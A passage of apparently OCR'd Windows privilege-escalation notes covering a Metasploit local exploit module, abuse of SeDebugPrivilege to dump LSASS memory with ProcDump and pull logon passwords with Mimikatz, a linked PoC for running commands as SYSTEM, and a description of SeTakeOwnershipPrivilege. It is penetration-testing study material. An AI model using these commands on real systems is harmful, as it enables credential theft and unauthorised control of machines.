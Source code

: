 ```

    use exploit/windows/local/ms16_075_reflection_juicy





## SeDebugPrivilege

    

### ProcDump

We can use ProcDump from the SysInternals suite to leverage this privilege and dump process memory. 

`C:\> procdump.exe -accepteula -ma lsass.exe lsass.dmp`

This is successful, and we can load this in Mimikatz using the sekurlsa::minidump commandand execute sekurlsa::logonPasswords commands

    Note: It is always a good idea to type "log" before running any commands in "Mimikatz"
```
    C:\> mimikatz.exe

    mimikatz # log

    mimikatz # sekurlsa::minidump lsass.dmp

    mimikatz # sekurlsa::logonpasswords
```
    !we can take a manual memory dump of the LSASS process via the Task Manager by browsing to the Details tab, choosing the LSASS process, and selecting Create dump file.



### Remote Code Execution as SYSTEM



First, transfer this [PoC script ](   https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1 )  over to the target system. Next we just load the script and run it with the following syntax `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"") `
        
        Note that we must add a third blank argument "" at the end for the PoC to work properly.

[another](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) poc script



## SeTakeOwnershipPrivilege

        
SeTakeOwnershipPrivilege grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns WRITE_OWNER rights over an object, meaning the user can change the owner within the object's security descriptor.


#### Setting this right
The setting can be set in Group Policy under:

```
